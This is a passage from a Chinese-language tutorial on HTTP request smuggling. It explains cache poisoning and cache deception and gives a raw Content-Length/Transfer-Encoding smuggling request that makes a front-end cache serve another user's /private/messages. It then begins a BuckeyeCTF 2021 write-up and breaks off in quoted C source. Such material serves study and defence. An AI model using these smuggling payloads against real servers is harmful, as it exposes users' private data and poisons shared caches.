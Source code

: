 在C请求的`/resources/js/tracking.js`会被前端服务器认为是静态资源缓存起来，而我们利用HTTP Smuggling将这个请求导向了我们的vps，返回了`alert(1)`给C请求，然后这个响应包就会被前端服务器缓存起来，这样我们就成功进行了投毒

#### 缓存欺骗

在缓存投毒中，攻击者将恶意内容存储在缓存中 并将该内容从缓存中提供给其它应用程序用户，而在缓存欺骗中，攻击者使应用程序将一些属于另一个用户的敏感内容存储在缓存中，然后攻击者从缓存中检索该内容

我们发送这样的请求

```http
POST / HTTP/1.1
Host: vulnerable-website.com
Content-Length: 43
Transfer-Encoding: chunked

0

GET /private/messages HTTP/1.1
Foo: X

```

smuggle的请求会用`Foo:X`覆盖下一个发过来的请求头的第一行（GET /xxx HTTP/1.1） 并且这个请求会带着用户的cookie去访问，类似CSRF，该请求就会变成这样

```http
GET /private/messages HTTP/1.1
Foo: XGET /static/some-image.png HTTP/1.1
Host: vulnerable-website.com
Cookie: sessionId=q1jn30m6mqa7nbwsa0bhmbr7ln2vmh7z

```

多发送几次，一旦用户访问的是静态资源，就可能会被前端服务器缓存起来，我们就可以拿到用户/private/messages的信息了

### in CTF

#### [BuckeyeCTF 2021]Curly fries

[file-link](https://github.com/cscosu/buckeyectf-2021/blob/master/web/curly_fries/dist/curly_fries.zip)

用c的curl.h库实现curl的功能，接收一个我们输入的url，curl之后返回响应包的内容，看下c源码

```c
#include <curl/curl.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int verify_flag_file() {
    // Verify that the flag file still contains the flag
    char* buf = malloc(1024);
    FILE* fp = fopen("./flag.txt", "r");
    fgets(buf, 1024, fp);
    int res = strstr(buf, "Congratulations! Here's the flag: buckeye{") == buf;
    free(buf);
    return res;
}

char* response = NULL;
size_t response_buf_size = 0;
size_t response_size = 0;

size_t header_callback(char* data, size_t size, size_t nitems, void* userdata) {
    size_t real_size = size * nitems;

    printf("< %.*s", (int)real_size, data);
```